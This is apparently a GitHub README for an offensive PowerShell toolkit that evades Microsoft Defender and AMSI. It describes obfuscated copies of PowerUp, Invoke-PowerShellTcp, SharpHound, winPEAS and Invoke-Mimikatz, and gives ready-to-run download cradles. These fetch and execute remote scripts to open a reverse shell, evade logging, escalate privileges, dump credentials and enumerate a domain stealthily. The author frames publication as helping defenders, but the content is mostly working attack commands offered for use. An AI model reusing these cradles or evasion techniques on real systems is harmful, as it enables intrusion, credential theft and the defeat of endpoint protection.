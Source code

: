 
<h1 align="center">
<br>
<img src=ihateamsi.jpg height="310" border="2px solid #555">
<br>
i hate AMSI
</h1>
<h4 align="center">
disabling RTM is for noobs
</h4>

## what is this and why is this public

A collection of obfuscated AMSI bypass methods for powershell sessions as well as a collection of custom-obfuscated scripts in case any of the bypass methods get detected (this will happen if they use an actual EDR).

Even though I hate MDE, showing off how easy it is to bypass AMSI can only help make it better. Right now it is the only protection for a significant amount of home users and smaller enterprises which is bad.

## bypass methods

I will unprivate soon :)

## MDE-safe scripts

These are all just for defender - I just used defendercheck and made some edits. Anything serious and you're on your own

- `PowerUp.ps1`
    - Removed service binaries. Hijack it yourself!
    - HTML reports removed.

- `Invoke-PowerShellTcp`
    - Removed some comments and error messages.

- `InvisiShell`
    - No changes.

- `SharpHound.ps1`
    - Had to obfuscate a reflection string.

- `winPEAS.bat`
    - Obfuscated color line string variable (terrible signature.)

- `Invoke-Mimimkatz` **[NOT YET BYPASSED]**
    - Had to add some base64-strings and change a parameter on PowerShell script. `DumpCreds` is now `GetPwned`.
    - The source VS solution will need to be edited as the assembly blob is signatured pretty heavily. I may also just work on another encoding mechanism to update the script in the future with [this](https://github.com/g4uss47/Invoke-Mimikatz) dope script.

## download cradles

These only work on PowerShell 3.0. Don't downgrade to 2.0 you will get caught

- **Reverse Shell**
```
iex (iwr http://172.16.100.X/Invoke-PowerShellTcp-OBFS.ps1 -UseBasicParsing); Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.X -Port 443
```

- **Log Evasion**
```
iwr http://172.16.100.X/InvisiShellProfiler.dll -UseBasicParsing -OutFile InvisiShellProfiler.dll;
iex (iwr http://172.16.100.X/RunWithRegistryNonAdmin.bat -UseBasicParsing);
iex (iwr http://172.16.100.X/RunWithPathAsAdmin.bat -UseBasicParsing);
```

- **Privilege Escalation**
```
iex (iwr http://172.16.100.X/winPEAS-OBFS.bat -UseBasicParsing);
iex (iwr http://172.16.100.X/PowerUp.ps1 -UseBasicParsing); Invoke-AllChecks;
```

- **Dump Creds**
```
iex (iwr http://172.16.100.X/Invoke-Mimikatz-OBFS.ps1 -UseBasicParsing); Invoke-Mimikatz -GetPwned;
```

- **Domain Abuse**

SHARPHOUND TOUCHES DISK OBVIOUSLY

```
iex (iwr http://172.16.99.77/SharpHound.ps1); Invoke-BloodHound -CollectionMethod All -Stealth -ExcludeDCs;
```

## to-be-added

- `Invoke-SessionHunter`
- `PowerView`
- `Invoke-Rubeus`
- obfuscated shell for .net reflected assemblies (empire already has a folder for this but I will make some custom bypasses)
